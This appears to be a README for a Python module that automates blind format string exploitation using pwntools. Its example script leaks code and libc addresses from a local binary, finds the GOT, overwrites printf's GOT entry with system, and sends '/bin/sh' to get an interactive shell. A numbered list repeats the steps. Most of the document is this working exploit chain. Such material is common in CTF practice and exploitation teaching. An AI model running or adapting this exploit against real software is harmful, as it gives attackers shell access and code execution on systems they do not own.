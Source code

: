 ## Blind Format String Exploitation 
This is a module to exploit blind format string vulnerability  

### How to use it ?
```python
from pwn import *
from frmstr import *

p = process('blind')
saveSocket = p

base_addr = 0x08048000

data = leak_code(p,0x0804852b,0x100)
print disasm(data,arch='i386')
d, dynamic_ptr = leak_libc_ptr(p,base_addr)
system_libc  = leak_libc(d,'system')
fprintf_libc = leak_libc(d,'fprintf')

got_addr = find_got(p,dynamic_ptr)
printf_got = resolve_got(got_addr, fprintf_libc)

send_payload(p,printf_got, system_libc,6)
p.sendline('/bin/sh\x00')
p.interactive()
p.close()

```

#### Steps For Exploitation
1) leak the code

2) leak Libc usinf pwntools Dynelf module

3) leak .dynamic ptr and then GOT table addr 

4) leak printf_got

5) Overwrite printf_got with system addr </p>

6) send /bin/sh 
